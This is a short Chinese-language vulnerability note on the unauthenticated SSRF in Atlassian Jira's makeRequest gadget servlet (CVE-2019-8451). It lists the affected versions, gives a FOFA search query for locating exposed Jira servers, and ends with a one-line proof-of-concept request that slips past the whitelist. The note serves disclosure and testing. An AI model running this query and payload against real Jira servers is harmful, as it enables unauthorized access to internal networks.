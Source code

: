 # Atlassian Jira makeRequest SSRF漏洞 CVE-2019-8451

## 漏洞描述

Jira的 /plugins/servlet/gadgets/makeRequest资源存在SSRF漏洞，原因在于JiraWhitelist这个类的逻辑缺陷，成功利用此漏洞的远程攻击者可以以Jira服务端的身份访问内网资源。经分析，此漏洞无需任何凭据即可触发。

## 漏洞影响

```
Atlassian Jira <8.4.0
```

## FOFA

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241427027.png)

验证POC

```
/plugins/servlet/gadgets/makeRequest?url=http://目标IP@www.baidu.com/robots.txt
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241427776.png)